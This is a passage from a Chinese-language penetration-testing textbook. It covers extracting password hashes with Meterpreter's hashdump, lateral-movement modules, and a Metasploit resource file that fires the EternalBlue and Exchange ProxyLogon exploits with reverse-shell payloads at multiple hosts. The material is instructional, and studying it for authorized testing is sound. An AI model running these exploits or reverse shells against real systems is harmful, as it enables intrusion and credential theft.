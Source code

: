 ![A screenshot of a computer  Description automatically generated with low confidence](img/B17765_10_16.png)

图 10.16：在 Meterpreter 中使用 hashdump 提取用户名和哈希值

此外，为了存储这些信息以增强网络中的横向移动，测试人员可以在`msfconsole`中利用`incognito`和`kiwi`模块。

# 使用 MSF 资源文件利用多个目标

MSF 资源文件基本上是按行分隔的文本文件，其中包含需要在`msfconsole`中执行的一系列命令。让我们创建一个资源文件，该文件可以在多个主机上利用相同的漏洞：

```
use exploit/windows/smb/ms17_010_eternalblue
set payload windows/x64/meterpreter/reverse_tcp
set rhost xx.xx.xx.xx
set lhost xx.xx.xx.xx
set lport 4444
exploit -j
use exploit/windows/http/exchange_proxylogon_rce
set payload windows/meterpreter/reverse_https
set rhost xx.xx.xx.xx
set lhost xx.xx.xx.xx
set lport 443
exploit -j 
```

将文件保存为`multiexploit.rc`。现在，您可以通过运行`msfconsole -r filename.rc`来调用资源文件，其中`-r`表示资源文件。上述资源文件将按顺序利用相同的漏洞。一旦第一个漏洞利用完成，指定`exploit -j`将把正在运行的漏洞利用转移到后台，允许下一个漏洞利用继续。一旦所有目标的漏洞利用完成，我们应该能够在 Metasploit 中看到多个 Meterpreter Shell。

如果漏洞利用设计仅在单个主机上运行，可能无法在漏洞利用中输入多个主机或 IP 范围。然而，替代方法是对每个主机使用不同的端口号运行相同的漏洞利用。我们将在下一章详细讨论在提升权限时可以利用的现有 MSF 资源文件。

# 使用公共漏洞
